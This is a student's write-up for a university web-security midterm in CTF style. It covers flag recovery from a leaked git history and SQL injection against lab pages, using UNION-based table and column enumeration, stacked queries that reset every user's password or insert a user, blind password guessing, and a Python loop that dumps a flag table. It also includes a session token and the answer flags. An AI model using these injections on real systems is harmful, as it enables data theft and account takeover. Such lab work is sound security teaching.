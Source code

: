 # Midsem

## 1
Hidden git folder

git log returns
`
adf538f485e62c9dd82a5525a7912adbb4532e14 24ba0240b361ae579e5b93acb7d395a94c1cbbe7 sean <s@mewy.pw> 1551850397 +1100	revert: Revert "Added flag"
`

By the dumping the repo we can explore previous commits and retrieve the flag.
```
git log
git checkout 24ba0240b361ae579e5b93acb7d395a94c1cbbe7
cat app.py
```

`COMP6443{8fda877f-38c4-4b1f-96b5-2d35f64220ba}`


## 2
The username is vulnerable to sql injection

`SELECT username, password\n FROM users\n WHERE username=‘’ ‘\n LIMIT 1`

‘ AND

‘ AND 1=0 UNION Select username, ‘password’ from users where username like ‘%%’ and ‘1’=‘1

Password hash256 does not match

We can update  all the users passwords and then login
```
' or 1='1'; update users set password=HASHBYTES('SHA2_256','password'); Select username, password from users where 1='1
```

Since it is postgresql:
```
' or 1='1'; update users set password=digest('password', 'SHA2_256'); Select username, password from users where 1='1
```

digest is unavailable…

We can also enumerate the user’s password by doing something like
```
’ and 1=1 and password like 'c%
```

and modifying the char until we get a hit.


Trying to insert already sha256 password
```
' or 1='1'; INSERT INTO users (username, password)
VALUES ('test','f2ca1bb6c7e907d06dafe4687e579fce76b37e4e93b7605022da52e6ccc26fd2'); Select username, password from users where 1='1

```

## 3
Parameter page is vulnerable to sql injection

' and 1=0 UNION SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES as p where p.table_schema != 'information_schema' and p.table_schema != 'pg_catalog

Returns `Failed to complete request: Unable to find route: page`

Page is therefore the name of one of the tables

We can enumerate all tables with

```
' and 1=0 UNION (SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES as p where p.table_schema != 'information_schema' and p.table_schema != 'pg_catalog' LIMIT 1 OFFSET 2) --
```

and simply increment the offset.

Tables are:
- page
- person
- flag


```
' and 1=0 UNION (SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.columns where table_name='flag' LIMIT 1 OFFSET 0) --
```

Flag table columns:
- id
- flag

```
' and 1=0 UNION (SELECT flag FROM flag limit 1 offset 10) --
```

A simple program to get all the offsets:
```
import requests

c = {
        'zid' : 'z5016776',
        'token' : '15b68583d63975c4d1656800cef7714b92358466802a603535298ebd5850dea1'
        }

for i in range(0,100):
    input = "' and 1=0 UNION (SELECT flag FROM flag limit 1 offset {}) -- ".format(i)
    r = requests.get("http://q3.69528ba63fc22addc0ca72e6b701c02d.midsem.ns.agency/?page=" + input, cookies=c)
    print r.text
```

Simply run and grep for the flag:
`COMP6843{e65e9af7-704a-4acd-944c-d67cb8dc3442}`
